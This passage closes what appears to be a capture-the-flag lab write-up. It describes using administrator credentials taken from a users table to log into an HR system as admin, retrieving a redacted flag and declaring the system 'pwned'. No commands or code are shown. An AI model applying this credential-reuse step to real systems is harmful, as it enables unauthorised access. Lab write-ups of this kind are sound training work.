> The users table contains `administrator credentials`. We use them to `log into the HR system as an admin`:

<p align="center">
 
</p>

<p align="center">
 
</p>

> Finally, we retrieve the last flag - `THM{**************}`

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 flag 2</b><br/>
      <code>THM{**************}</code>
    </td>
  </tr>
</table>

</div>

> System is pwned!

